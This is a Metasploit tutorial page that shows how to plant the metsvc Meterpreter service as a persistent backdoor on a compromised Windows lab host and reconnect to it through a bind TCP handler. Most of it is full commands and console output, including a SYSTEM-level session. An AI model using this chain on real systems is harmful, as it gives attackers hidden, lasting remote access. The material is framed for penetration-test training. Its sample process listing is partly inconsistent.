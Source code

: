 ```yaml
---
draft: false
title: MSF Meterpreter Backdoor
linkTitle: MSF Meterpreter Backdoor
translationKey: msf-meterpreter-backdoor
date: 2017-06-15T13:56:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Using the metsvc service to create a backdoor with Meterpreter.
url: /msf-meterpreter-backdoor/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
weight: 390
---
```

## Meterpreter metsvc

After logging into the target system, another way to ensure persistence is to use the `metsvc` service. With this service, you can open a Meterpreter session again whenever you want. You can review detailed information about [metsvc](http://www.phreedom.org/software/metsvc/) using the link.

Let's emphasize an important point you need to know about metsvc. **Anyone who finds the relevant port of the computer you placed this service on can use this backdoor.** You should cancel it after using it during pentest operations, otherwise you will open the system to malicious people. This may not be nice to the system owners.

First, let's open a meterpreter session using a module related to a vulnerability you found in the system.

```bash
msf exploit(3proxy) > exploit

> Started reverse handler
> Trying target Windows XP SP2 - English...
> Sending stage (719360 bytes)
> Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.104:1983)
```

Let's find the PID number of the `Explorer.exe` program with the `ps` command and switch to the program with this PID number with the `migrate` command.

```bash
meterpreter > ps

Process list
**============**

 PID Name Path
 --- ---- ----
 132 ctfmon.exe C:\WINDOWS\system32\ctfmon.exe
 176 svchost.exe C:\WINDOWS\system32\svchost.exe
 440 VMwareService.exe C:\Program Files\VMware\VMware Tools\VMwareService.exe
 632 Explorer.EXE C:\WINDOWS\Explorer.EXE
 796 smss.exe \SystemRoot\System32\smss.exe
 836 VMwareTray.exe C:\Program Files\VMware\VMware Tools\VMwareTray.exe
 844 VMwareUser.exe C:\Program Files\VMware\VMware Tools\VMwareUser.exe
 884 csrss.exe \??\C:\WINDOWS\system32\csrss.exe
 908 winlogon.exe \??\C:\WINDOWS\system32\winlogon.exe
 952 services.exe C:\WINDOWS\system32\services.exe
 964 lsass.exe C:\WINDOWS\system32\lsass.exe
 1120 vmacthlp.exe C:\Program Files\VMware\VMware Tools\vmacthlp.exe
 1136 svchost.exe C:\WINDOWS\system32\svchost.exe
 1236 svchost.exe C:\WINDOWS\system32\svchost.exe
 1560 alg.exe C:\WINDOWS\System32\alg.exe
 1568 WZCSLDR2.exe C:\Program Files\ANI\ANIWZCS2 Service\WZCSLDR2.exe
 1596 jusched.exe C:\Program Files\Java\jre6\binjusched.exe
 1656 msmsgs.exe C:\Program Files\Messenger\msmsgs.exe
 1748 spoolsv.exe C:\WINDOWS\system32\spoolsv.exe
 1928 jqs.exe C:\Program Files\Java\jre6\binjqs.exe
 2028 snmp.exe C:\WINDOWS\System32\snmp.exe
 2840 3proxy.exe C:\3proxy\bin3proxy.exe
 3000 mmc.exe C:\WINDOWS\system32\mmc.exe

meterpreter > migrate 632
> Migrating to 632...
> Migration completed successfully.
```

Before using the `metsvc` module, let's view the help and see what possibilities it provides us.

```bash
meterpreter > run metsvc -h
>
OPTIONS:

-A Automatically start a matching multi/handler to connect to the service
-h This help menu
-r Uninstall an existing Meterpreter service (files must be deleted manually)

meterpreter >
```

`metsvc` is a program that normally provides us with a backlink, but since we have already opened a Meterpreter session, we don't need the backlink for now. Let's just run the program.

```bash
meterpreter > run metsvc
> Creating a meterpreter service on port 31337
> Creating a temporary installation directory C:\DOCUME~1\victim\LOCALS~1\Temp\JplTpVnksh...
> > Uploading metsrv.dll...
> > Uploading metsvc-server.exe...
> > Uploading metsvc.exe...
> Starting the service...
> ***** Installing service metsvc
***** Starting service
Service metsvc successfully installed.

meterpreter >
```

`metsvc` has started and is now waiting to connect. Now let's see how we will communicate with this service.

We will use the `windows/metsvc_bind_tcp` payload module to communicate with `metsvc` which is listening on the target system. Let's activate the module as in the example below and make the necessary PORT settings.

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/metsvc_bind_tcp
PAYLOAD => windows/metsvc_bind_tcp
msf exploit(handler) > set LPORT 31337
LPORT => 31337
msf exploit(handler) > set RHOST 192.168.1.104
RHOST => 192.168.1.104
msf exploit(handler) > show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (windows/metsvc_bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LPORT     31337            yes       The local port
   RHOST     192.168.1.104    no        The target address
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
msf exploit(handler) > exploit

> Starting the payload handler...
> Started bind handler
> Meterpreter session 2 opened (192.168.1.101:60840 -> 192.168.1.104:31337)
```

As you can see, `session 2` has been opened automatically. Now, let's see what PID number the `metsvc` service is running with on the target computer.

```bash
meterpreter > ps

Process list
**============**

   PID   Name               Path                                                  
   ---   ----               ----                                                  
   140   smss.exe           \SystemRoot\System32\smss.exe                         
   168   csrss.exe          \??\C:\WINNT\system32\csrss.exe                       
   188   winlogon.exe       \??\C:WINNT\system32\winlogon.exe                    
   216   services.exe       C:\WINNT\system32\services.exe                        
   228   lsass.exe          C:\WINNT\system32\lsass.exe                           
   380   svchost.exe        C:\WINNT\system32\svchost.exe                         
   408   spoolsv.exe        C:\WINNT\system32\spoolsv.exe                         
   444   svchost.exe        C:\WINNT\System32\svchost.exe                         
   480   regsvc.exe         C:\WINNT\system32\regsvc.exe                          
   500   MSTask.exe         C:\WINNT\system32\MSTask.exe                          
   528   VMwareService.exe  C:\Program Files\VMware\VMware Tools\VMwareService.exe
   564   metsvc.exe         c:\WINNT\my\metsvc.exe                                
   588   WinMgmt.exe        C:\WINNT\System32\WBEM\WinMgmt.exe                    
   676   cmd.exe            C:\WINNT\System32\cmd.exe                             
   724   cmd.exe            C:\WINNT\System32\cmd.exe                             
   764   mmc.exe            C:\WINNT\system32\mmc.exe                             
   816   metsvc-server.exe  c:\WINNT\my\metsvc-server.exe                         
   888   VMwareTray.exe     C:\Program Files\VMware\VMware Tools\VMwareTray.exe   
   896   VMwareUser.exe     C:\Program Files\VMware\VMware Tools\VMwareUser.exe   
   940   firefox.exe        C:\Program Files\Mozilla Firefox\firefox.exe          
   972   TPAutoConnSvc.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnSvc.exe
   1000  Explorer.exe       C:\WINNT\Explorer.exe                                 
   1088  TPAutoConnect.exe  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

As can be seen from the output, the `metsvc` program is running with PID number 564. Now, whenever you want, we can connect to the program listening on the target computer using the `windows/metsvc_bind_tcp` payload module.

Again, once your security test procedures are complete, you should delete the `metsvc` program from the system.